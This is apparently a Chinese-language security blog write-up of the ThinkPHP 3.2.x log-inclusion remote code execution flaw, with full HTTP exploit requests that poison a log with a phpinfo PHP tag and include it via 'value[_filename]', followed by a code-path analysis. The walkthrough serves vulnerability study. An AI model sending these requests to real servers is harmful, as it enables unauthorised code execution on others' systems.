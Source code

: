 # 原创
：  ThinkPHP3.2.x RCE

# ThinkPHP3.2.x RCE

#### ThinkPHP3.2.x RCE

## 初始配置

> 



```
&lt;?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index($value=''){
        $this-&gt;assign($value);
        $this-&gt;show('&lt;style type="text/css"&gt;*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} body{ background: #fff; font-family: "微软雅黑"; color: #333;font-size:24px} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.8em; font-size: 36px } a,a:hover{color:blue;}&lt;/style&gt;&lt;div style="padding: 24px 48px;"&gt; &lt;h1&gt;:)&lt;/h1&gt;&lt;p&gt;欢迎使用 &lt;b&gt;ThinkPHP&lt;/b&gt;！&lt;/p&gt;&lt;br/&gt;版本 V{$Think.version}&lt;/div&gt;&lt;script type="text/javascript" src="http://ad.topthink.com/Public/static/client.js"&gt;&lt;/script&gt;&lt;thinkad id="ad_55e75dfae343f5a1"&gt;&lt;/thinkad&gt;&lt;script type="text/javascript" src="http://tajs.qq.com/stats?sId=9347272" charset="UTF-8"&gt;&lt;/script&gt;','utf-8');
    }
}

```

## 漏洞利用

> 
利用`burpsuite`进行抓包修改包避免编码问题造成漏洞无法利用


### debug模式开启

> 
先用`Thinkphp Getshell`工具检测一下漏洞是否存在


> 
请求数据包，查看日志文件`Application/Runtime/Logs/Home/21_08_02.log`发现成功写入


```
GET /cms/index.php?m=Home&amp;c=Index&amp;a=index&amp;test=--&gt;&lt;?=phpinfo();?&gt; HTTP/1.1
Host: 192.168.10.9
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-CN,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=rfpmtb683svnoh5emql41ka803
Connection: close

```

> 
构造攻击请求，成功触发该漏洞


```
GET /cms/index.php?m=Home&amp;c=Index&amp;a=index&amp;value[_filename]=./Application/Runtime/Logs/Home/21_08_02.log HTTP/1.1
Host: 192.168.10.9
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-CN,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=rfpmtb683svnoh5emql41ka803
Connection: close

```

### debug模式未开启

> 
请求数据包


```
GET /cms/index.php?m=--&gt;&lt;?=phpinfo();?&gt; HTTP/1.1
Host: 192.168.10.9
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-CN,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=rfpmtb683svnoh5emql41ka803
Connection: close

```

> 
构造攻击请求，成功触发该漏洞


```
GET /cms/index.php?m=Home&amp;c=Index&amp;a=index&amp;value[_filename]=./Application/Runtime/Logs/Common/21_08_02.log HTTP/1.1
Host: 192.168.10.9
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-CN,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=rfpmtb683svnoh5emql41ka803
Connection: close

```

### 文件包含\上传

> 
上传具有恶意代码的任何文件到服务器上，直接包含其文件相对或绝对路径即可


```
http://192.168.10.9/cms/index.php?m=Home&amp;c=Index&amp;a=index&amp;value[_filename]=./phpinfo.php

```

## 漏洞分析

### 程序执行流程

### 漏洞利用原理

> 
在ThinkPHP3.2.3框架的程序中，如果要在模板中输出变量，需要在控制器中把变量传递给模板，系统提供了assign方法对模板变量赋值，本漏洞的利用条件为assign方法的第一个变量可控


### 本地代码审计

> 
先跟进`Application/Home/Controller/IndexController.class.php`，功能代码中的`assign`方法中第一个变量为可控变量


> 
全局搜索`assign`，跟进`ThinkPHP/Library/Think/View.class.php`，可控变量进入assign方法赋值给`$this→tVar`变量


> 
进入`show`方法，跟进`ThinkPHP/Library/Think/Controller.class.php`，发现进一步调用了`display`方法


> 
全局搜索`display`方法，跟进`ThinkPHP/Library/Think/View.class.php`，`display`方法开始解析并获取模板文件内容，此时模板文件路径和内容为空


> 
进入`fetch`方法，传入的参数为空时会根据配置获取默认的模板文件位置 `(./Application/Home/View/Index/index.html)`，之后系统配置的默认模板引擎为think，所以会进入else分支，获取`$this→tVar`变量值赋值给`$params`，之后进入`Hook::listen`方法


> 
进入`listen`方法，跟进`ThinkPHP/Library/Think/Hook.class.php`，进入`exec`方法


> 
进入`exec`方法中，处理后调用`Behavior\ParseTemplateBehavior`类中的`run`方法处理`$params`这个带有日志文件路径的值


> 
进入`run`方法，跟进`ThinkPHP/Library/Behavior/ParseTemplateBehavior.class.php`，进入else分支调用`Think\Template`类中的`fetch`方法对变量`$_data`进行处理


> 
跟进`ThinkPHP/Library/Think/Template.class.php`，获取缓存文件路径后进入Storage的`load`方法中


> 
跟进到`ThinkPHP/Library/Think/Storage/Driver/File.class.php`的`load`方法中，`$_filename`为之前获取的缓存文件路径，`$vars`则为之前带有_filename=日志文件路径的数组，`$vars`不为空则使用`extract`方法的EXTR_OVERWRITE默认描述对变量值进行覆盖，之后include该日志文件路径，导致文件包含，触发`ThinkPHP 3.x Log RCE`漏洞


## 漏洞通报

> 
[戳此查看漏洞通报](https://mp.weixin.qq.com/s/_4IZe-aZ_3O2PmdQrVbpdQ)

